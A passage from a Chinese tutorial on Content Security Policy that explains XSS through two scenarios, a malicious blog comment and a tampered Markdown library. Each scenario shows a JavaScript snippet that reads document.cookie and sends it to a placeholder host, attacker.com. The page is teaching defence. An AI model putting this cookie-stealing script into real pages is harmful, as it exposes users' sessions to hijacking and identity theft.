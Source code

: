 ```yaml
---
title: 内容安全策略
head:
  - - meta
    - name: description
      content: 内容安全策略（CSP）是一个额外的安全层，用于检测报告并削弱某些特定类型的攻击，包括跨站脚本（XSS）和数据注入攻击等。该安全策略通过设置HTTP响应标头中的Content-Security-Policy字段，告诉浏览器哪些来源是受信任的，哪些操作是允许的，从而减少跨站脚本（XSS）攻击的风险。
  - - meta
    - name: keywords
      content: HTTP HTTP安全 XSS 跨站脚本攻击 CSP 内容安全策略 Content-Security-Policy XSS攻击防范手段 对内容安全策略进行测试
---
```

# XSS攻击？内容安全策略会出手的

XSS（Cross-Site Scripting，跨站脚本攻击，简称XSS）攻击是一种利用网页应用程序的安全漏洞的攻击方式，攻击者通过在网页中注入恶意脚本代码，使其在用户的浏览器中执行。这些恶意脚本可以用来窃取用户的敏感信息、篡改网页内容或进行其他未经授权的操作。

::: tip XSS全称为Cross-Site Scripting，简称为什么是XSS而不是CSS

为什么XSS不简称为CSS，主要是因为CSS已经被广泛用于表示层叠样式表，用于定义网页的样式和布局。为了避免混淆，XSS选择了不同的简称，即"XSS"。

:::

**有小伙伴可能会疑惑："攻击者是怎么向网页注入恶意脚本的？"，我们看下面的例子：**

> 有一个博客网站提供了评论功能，用户评论可以实时渲染到DOM中，但由于该博客并未做用户输入以及渲染到DOM时的数据校验，因此攻击者就可以评论如下内容：
>
> ```js
> <script>
>   // 恶意代码，假设它会窃取用户的Cookie
>   var stolenData = document.cookie;
>   // 将数据发送到攻击者的服务器
>   var img = new Image();
>   img.src = "http://attacker.com/steal.php?data=" 
>                    + encodeURIComponent(stolenData);
> </script>
> ```
>
> 当其他用户浏览评论时，浏览器会执行评论中的JavaScript代码。这个恶意脚本会窃取用户的Cookie数据，并将它发送到攻击者的服务器，攻击者可以在服务器上分析这些Cookie数据，可能用于进一步的攻击，如身份盗窃或会话劫持。

是不是很恐怖，当然聪明的朋友可能会说："那我做好用户输入、客户端渲染的数据校验不就可以了吗？"。确实，**做好用户输入的验证和客户端渲染数据的校验是防止XSS攻击的关键步骤之一**，但不能完全依赖它来确保安全，因为XSS攻击可以非常隐蔽和复杂，比如下面这个例子：

> 有一个在线论坛网站用于用户发表和浏览帖子。它使用了一个开源的Markdown渲染库，该库用于将用户输入的Markdown文本转换为HTML以进行显示。该网站执行了严格的用户输入、数据渲染验证，以确保用户不能直接插入恶意脚本或HTML标签。但其依赖的Markdown渲染库被污染，在某个时刻被攻击者篡改，包含了以下代码：
>
> ```js
> <script>
>   // 恶意代码，假设它会窃取用户的Cookie
>   var stolenData = document.cookie;
>   // 将数据发送到攻击者的服务器
>   var img = new Image();
>   img.src = "http://attacker.com/steal.php?data=" 
>                    + encodeURIComponent(stolenData);
> </script>
> ```
>
> 当用户浏览Markdown时，浏览器会执行第三方库恶意代码。这个恶意脚本会窃取用户的Cookie数据，并将它发送到攻击者的服务器，攻击者可以在服务器上分析这些Cookie数据，可能用于进一步的攻击，如身份盗窃或会话劫持。
